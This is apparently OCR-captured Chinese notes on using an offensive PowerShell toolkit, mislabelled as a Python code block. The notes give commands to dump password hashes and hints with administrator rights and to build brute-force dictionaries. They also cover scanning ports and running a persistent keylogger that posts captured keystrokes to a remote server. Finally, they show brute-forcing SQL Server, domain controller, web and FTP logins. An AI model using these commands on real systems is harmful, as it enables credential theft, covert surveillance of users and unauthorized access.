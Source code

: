 ```pythn


# Get-PassHashes 获取密码

# 在administrator的权限下可以dump出密码hash值（在在msf中的power dump模块进行了修改，不需要system权限就可以dump）

Get-PassHashes


# 获取用户的密码提示信息(需要有administrator的权限) 可以根据提示信息生成密码字典，提高爆破成功率

Get-PassHints



## 获取帮助参数  Get-Help

Get-Help Invoke-PortScan


## 端口扫描

查看帮助信息
Get-Help Invoke-PortScan -full
Invoke-PortScan
Invoke-PortScan -StartAddress 192.168.0.100 -EndAddress 192.168.0.155 -ResolveHost 



# cd 切换到对应目录

## 测试键盘记录:  

Get-Help .\Keylogger.ps1 --full   # 查看帮助（提供了四种方式记录）
#-URL 要把记录发Keylogger送到的置顶的远程服务器    ,    -CheckURL 会检查所给出的网页中是够包含“MagicString”， 如果有就停止记录
.\gather\Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis -exfil -ExfilOption WebServer -URL http://192.168.254.226/data/catch.php 

# 解释： 将记录指定发送给一个可以记录Post请求的Web服务器

# 默认保存到(内容是ascii码)： Windows/Temp/key.log

# 把ascii记录解析为非ascii：

Parse_Keys .\key.log .\parsed.txt

# 持久化记录（重启之后也记录）

.\Keylogger.ps1 -persist



## 爆破口令  在scan目录下面

#用于对SQL Server、域控制器、Web和FTP弱口令爆破
Invoke-BruteForce
#命令参数如下
-ComputerName    # 对应服务的计算机名
-UserList  用户名字典
-PasswordList  密码字典
-Service 服务（默认为：SQL）
-StopOnSuccess   匹配一个后停止
-Delay    延迟时间
```